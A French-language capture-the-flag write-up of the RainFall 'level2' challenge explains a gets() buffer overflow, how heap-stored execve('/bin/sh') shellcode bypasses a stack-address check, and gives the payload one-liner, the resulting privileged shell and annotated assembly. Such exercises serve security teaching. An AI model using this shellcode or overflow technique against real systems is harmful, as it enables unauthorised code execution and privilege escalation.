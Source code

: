 ﻿Bon cette fois c'est un peu plus complique...

En ouvrant avec GDB on voit que le programme appelle la fonction `p`  
Cette fonction utilise la fonction `gets` donc vulnérable a un buffer overflow  
Juste avant il y a un buffer de 64 bytes qui est déclaré sur la stack apres un vide de 12 bytes
Malheureusement pour nous, il y a une verification juste apres qui verifie que la fonction `p` ne renvoie pas sur la stack  
Donc on ne peut pas utiliser de shellcode sur la stack  

Cependant, on peut se servir de la heap pour stocker notre shellcode car le programme fait un `strdup` de la chaine passee a `gets`  
Ainsi, on peut recuperer un shellcode sur un site comme [shell-storm](http://shell-storm.org/shellcode/),  
le passer a `gets` pour qu'il soit copie sur la heap et ensuite ecraser l'adresse de retour de `p` pour qu'elle pointe sur notre shellcode

J'ai choisi un shellcode qui appelle `execve` avec `/bin/sh` en argument [ici](https://shell-storm.org/shellcode/files/shellcode-811.html)  
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80` (28 octets)

Derniere chose, il nous faut l'addresse sur la heap de notre shellcode pour pouvoir l'executer.  
On peut le faire avec `ltrace` pour voir l'adresse de la chaine copiee sur la heap

INFO: `ltrace` est un outil qui permet de tracer les appels a des fonctions de librairies dynamiques (comme `strdup` par exemple)

```bash
level2@RainFall:~$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                   = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5)                                        = 0xbffff70c
puts("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
)                                                                                    = 32
strdup("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")                                            = 0x0804a008                                                                                                                                   = 0x0804a008
+++ exited (status 8) +++
```

On voit que l'adresse de notre chaine est `0x0804a008` soit `0x08a00408` en little endian

Du coup on peut faire notre exploit:
1. On envoie notre shellcode de 28 bytes
2. On envoie (12 + 64 + 4) - 28 = 52 bytes au pif (0x42 a tout hasard) pour remplir le buffer
3. On envoie l'adresse de notre shellcode sur la heap pour ecraser l'adresse de retour de `p`

```bash
level2@RainFall:~$ python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x42"*52 + "\x08\xa0\x04\x08"' > /tmp/payload2
level2@RainFall:~$ cat /tmp/payload2 - | ./level2
1�Ph//shh/bin����°
                  ̀1�@̀BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB�
pwd
/home/user/level2
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Une bonne video sur le sujet:
[Running a Buffer Overflow Attack - Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo)

PS: Flags pour compiler source.c: `-m32 -march=i686 -O0 -g`
PS2: Commande pour afficher en Intel dans gdb: `set disassembly-flavor intel`

PS3: Assembleur (Intel) de la fonction `p`:
```asm
/* 080484d4 <p>:                       */
/*  80484d4:       55                  */    push   ebp                                 ; stack frame
/*  80484d5:       89 e5               */    mov    ebp,esp                             ; stack frame
/*  80484d7:       83 ec 68            */    sub    esp,0x68                            ; allocate 104 bytes on stack
/*  80484da:       a1 60 98 04 08      */    mov    eax,ds:0x8049860                    ; move stdout to eax
/*  80484df:       89 04 24            */    mov    DWORD PTR [esp],eax                 ; set stack pointer to eax = stdout
/*  80484e2:       e8 c9 fe ff ff      */    call   fflush@plt                          ; call fflush(stdout)
/*  80484e7:       8d 45 b4            */    lea    eax,[ebp-0x4c]                      ; load effective address of ebp-0x4c (ebp - 76) into eax
/*  80484ea:       89 04 24            */    mov    DWORD PTR [esp],eax                 ; set stack pointer to eax
/*  80484ed:       e8 ce fe ff ff      */    call   gets@plt                            ; call gets(ebp-0x4c)
/*  80484f2:       8b 45 04            */    mov    eax,DWORD PTR [ebp+0x4]             ; move function argument 1 (return address) to eax
/*  80484f5:       89 45 f4            */    mov    DWORD PTR [ebp-0xc],eax             ; move eax (return address) to ebp-0xc (ebp - 12)
/*  80484f8:       8b 45 f4            */    mov    eax,DWORD PTR [ebp-0xc]             ; move (ebp - 12) to eax
/*  80484fb:       25 00 00 00 b0      */    and    eax,0xb0000000                      ; bitwise eax with 0xb0000000 => check if eax is on the stack
/*  8048500:       3d 00 00 00 b0      */    cmp    eax,0xb0000000                      ; compare eax with 0xb0000000 (check if eax is on the stack)
/*  8048505:       75 20               */    jne    8048527 <p+0x53>                    ; jump if not equal
/*  8048507:       b8 20 86 04 08      */    mov    eax,0x8048620                       ; move "(%p)\n" to eax
/*  804850c:       8b 55 f4            */    mov    edx,DWORD PTR [ebp-0xc]             ; move (ebp - 12) to edx
/*  804850f:       89 54 24 04         */    mov    DWORD PTR [esp+0x4],edx             ; set arg1 to edx (ebp - 12)
/*  8048513:       89 04 24            */    mov    DWORD PTR [esp],eax                 ; set arg0 to eax ("(%p)\n")
/*  8048516:       e8 85 fe ff ff      */    call   printf@plt                          ; call printf("(%p)\n", ebp-0xc)
/*  804851b:       c7 04 24 01 00 00 00*/    mov    DWORD PTR [esp],0x1                 ; set arg0 to 1
/*  8048522:       e8 a9 fe ff ff      */    call   _exit@plt                           ; call _exit(1)
/*  8048527:       8d 45 b4            */    lea    eax,[ebp-0x4c]                      ; load effective address of ebp-0x4c (ebp - 76) into eax
/*  804852a:       89 04 24            */    mov    DWORD PTR [esp],eax                 ; set arg0 to eax
/*  804852d:       e8 be fe ff ff      */    call   puts@plt                            ; call puts(eax)
/*  8048532:       8d 45 b4            */    lea    eax,[ebp-0x4c]                      ; load effective address of ebp-0x4c (ebp - 76) into eax
/*  8048535:       89 04 24            */    mov    DWORD PTR [esp],eax                 ; set arg0 to eax
/*  8048538:       e8 a3 fe ff ff      */    call   strdup@plt                          ; call strdup(eax)
/*  804853d:       c9                  */    leave
/*  804853e:       c3                  */    ret
```